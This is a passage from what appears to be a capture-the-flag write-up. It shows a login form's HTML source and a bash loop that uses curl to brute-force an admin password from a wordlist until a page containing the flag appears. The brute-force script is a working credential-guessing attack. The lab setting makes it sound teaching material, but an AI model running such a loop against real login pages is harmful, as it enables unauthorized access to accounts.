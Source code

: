     <form action="\#" method="GET">

    <input type="hidden" name="page" value="signin">
    
    Username:<input type="text" name ="username" style="width:100%

</td>

</tr>

<tr style="background-color:transparent;border:none;">
  
    <td style="vertical-align:middle;">
    
        Password:<input type="password" name ="password" style="width:100%
        
    </td>

</tr>

```

So the plan is to `spam` the URL over and over until the correct password is accepted. This is done via trying a list of passwords and seeing which one is eventually accepted. Here is the code:

```

for i in \${password[@]}; do
    
    if curl --silent -X POST "http://\${ip}/index.php?page=signin\&username=admin\&password=\${i}\&Login=Login\#" | grep "flag";
    
    then
    
        echo -e "\\nPassword is: \$i"
        
        curl -o sinkosi.html -X POST "http://\${ip}/index.php?page=signin\&username=admin\&password=\${i}\&Login=Login\#"
        
        exit 1
    
    fi

done

echo -e "\\nPassword is not in list\\n"

```

When the password is successfully found it will be printed to the terminal and a file sinkosi.html will be created. Open the html file, and the flag will be there.

*Alternative:* Use the retrieved password printed on the terminal and login directly on the VM.

\subsection{Tools}

